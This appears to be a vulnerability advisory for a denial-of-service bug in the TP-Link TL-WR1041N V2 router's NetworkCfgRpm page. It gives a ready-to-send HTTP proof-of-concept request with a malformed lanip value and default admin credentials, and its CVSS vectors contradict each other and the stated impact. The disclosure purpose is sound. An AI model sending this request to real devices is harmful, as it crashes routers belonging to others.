 # TP-Link TL-WR1041N wireless router /userRpm/NetworkCfgRpm denial of service vulnerability

## 1 Basic Information

- Vulnerability Type: Denial of Service
- Vulnerability Description: A denial of service vulnerability exists in TP-Link TL-WR1041N V2 wireless router. Its /userRpm/NetworkCfgRpm component has a security vulnerability in processing lanip GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing denial of service.
- Device model:
  - TP-Link TL-WR1041N V2

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

```http
GET /userRpm/NetworkCfgRpm.htm?lanip=192.168.1.3&aaa&&lanmask=2&inputMask=255.255.255.0&Save=%B1%A3+%B4%E6 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/NetworkCfgRpm.htm
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/NetworkCfgRpm component has a security vulnerability in processing the lanip GET key parameter. The lanip parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits this vulnerability to construct a payload of the lanip parameter, so that the carefully constructed parameter causes a denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

After sending the constructed PoC, denial of service occurred.

![](./imgs/deny.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search for NetworkCfgRpm keywords in the NVD database and find no vulnerabilities (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).

Search for NetworkCfgRpm keywords in the CNVD database did not find any vulnerabilities (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).